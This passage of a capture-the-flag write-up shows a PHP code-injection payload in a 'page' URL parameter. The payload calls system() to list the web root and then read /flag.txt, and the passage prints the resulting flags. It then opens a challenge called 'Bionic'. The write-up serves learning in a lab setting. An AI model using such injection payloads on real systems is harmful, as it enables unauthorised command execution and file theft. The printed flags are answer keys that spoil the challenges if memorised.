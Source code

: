 We can try using the `system()` command to do an `ls`:

* `?page=%27).%20system(%22ls%20-lah%22);%20//`

Which gives:

```
total 184K drwxr-xr-x 1 root root 4.0K Mar 6 06:15 . drwxrwxrwx 1 root root 4.0K Mar 6 06:15 .. -rwxr-xr-x 1 root root 21K Mar 6 06:14 about.php -rwxr-xr-x 1 root root 22K Mar 6 06:14 blog-single.php -rwxr-xr-x 1 root root 15K Mar 6 06:14 blog.php -rwxr-xr-x 1 root root 12K Mar 6 06:14 contact.php drwxr-xr-x 2 root root 4.0K Mar 6 06:14 css drwxr-xr-x 2 root root 4.0K Mar 6 06:14 fonts -rwxr-xr-x 1 root root 17K Mar 6 06:14 gallery.php -rw-r--r-- 1 root root 36K Mar 6 06:14 home.php drwxr-xr-x 9 root root 4.0K Mar 6 06:14 img -rwxr-xr-x 1 root root 327 Mar 6 06:14 index.php drwxr-xr-x 2 root root 4.0K Mar 6 06:14 js -rwxr-xr-x 1 root root 24K Mar 6 06:14 schedule.php
```

Bam! To check we can see the flag:

* `?page=%27).%20system(%22ls%20-lah%20/flag.txt%22);%20//`

```bash
-rw-r--r-- 1 root root 39 Mar 6 06:14 /flag.txt
```

Now we just can use `system()` to cat that and get the flag:)

* `page=%27).%20system(%22cat%20/flag.txt%22);%20//`

Gives

```
flag{85a25711fa6e111ed54b86468a45b90c}
```

Flag is `flag{85a25711fa6e111ed54b86468a45b90c}`.

## The Mission

### First Flag

Is the one from the rule page; `flag{48e117a1464c3202714dc9a350533a59}`.

### Bionic
> Author: @JohnHammond#6971
>
> Thank you for taking on The Mission. You can begin by exploring the CONSTELLATIONS public website, [constellations.page](https://constellations.page/).
>
> CONSTELLATIONS has "tried" to reduce their attack surface by offering just a static website. But you might find some low-hanging fruit to get you started.
>
> With the flag of this challenge, you should also find a new URL that will assist in the next challenge.
>
> After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.
